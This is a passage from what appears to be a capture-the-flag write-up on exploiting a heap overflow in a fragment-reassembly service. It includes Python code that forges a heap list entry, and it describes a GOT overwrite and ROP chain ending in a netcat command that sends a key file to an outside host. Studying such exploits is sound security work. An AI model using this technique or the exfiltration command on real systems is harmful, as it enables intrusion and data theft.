 We hope to land in one of those free blocks so our overflow overwrites something we can control later. Now we send the overflowing packet (red).

![Heap 4](heap4.jpg)

The overflow happens several thousand bytes further down the heap.

![Heap 5](heap5.jpg)

The black lines represent the meta data from each linked list entry. We just overwrote that with our forged entry (green).

![Heap 6](heap6.jpg)

Due to the way the service walks the linked list, we had to overwrite the list item with well formed data. The only values we corrupted were the two pointers:

	fragdata = 'tttt'									# ident
	fragdata += src										# ipv6 teredo src addr
	fragdata += dst										# dst addr
	fragdata += struct.pack("I", 0x0804E0B8-0x2c)		# frag_data, our write target (ntohs in the .got)
	fragdata += struct.pack("H", 0x8888)				# packet size
	fragdata += 'bb'									# junk
	fragdata += '\x00\x00\x00\x00'						# next pointer, set to 0 to terminate the list

Next, all we had to do was send a packet with the same identifier (tttt) as our forged list item and a smaller size. This would cause the fragment reassembly to write the incoming packet data to the frag\_data pointer.

GOT Overwrite & Popen
---------------------

We used our arbitrary write to overwrite the ntohs entry in the .got. This gave us EIP control. However, NX is on, so we need to ROP. Thankfully, the UDP command parser imported popen.

We used an add esp, 0xdc; pop; pop; pop; ret to align our stack. Then we called popen("cat key | nc host port\x00", "r") with a single additional rop gadget.


